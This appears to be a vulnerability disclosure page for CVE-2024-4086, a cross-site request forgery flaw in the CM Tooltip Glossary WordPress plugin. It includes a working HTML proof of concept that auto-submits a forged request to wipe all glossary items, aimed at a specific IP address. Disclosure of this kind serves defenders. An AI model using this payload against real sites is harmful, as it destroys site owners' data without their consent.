 ```yaml
---
layout: page
title: CVE-2024-4086
subtitle: CM Tooltip Glossary – Powerful Glossary Plugin <= 4.2.11 - Cross-Site Request Forgery
---
```

## Description
The CM Tooltip Glossary – Powerful Glossary Plugin plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 4.2.11. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings or reset them via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity

 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N]([https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N))

## Affected Version
    <= 4.2.11

## PoC :
```
<html>
  <!-- Made by eneriiiii -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=cmtt_settings" method="POST">
      <input type="hidden" name="cmtt&#95;removeAllItems" value="Remove&#32;all&#32;items" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset/3076616/enhanced-tooltipglossary/trunk/settings/CMTT_Settings.php?contextall=1&old=3029791&old_path=%2Fenhanced-tooltipglossary%2Ftrunk%2Fsettings%2FCMTT_Settings.php
- https://www.cve.org/CVERecord?id=CVE-2024-4086
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/enhanced-tooltipglossary/cm-tooltip-glossary-powerful-glossary-plugin-4211-cross-site-request-forgery


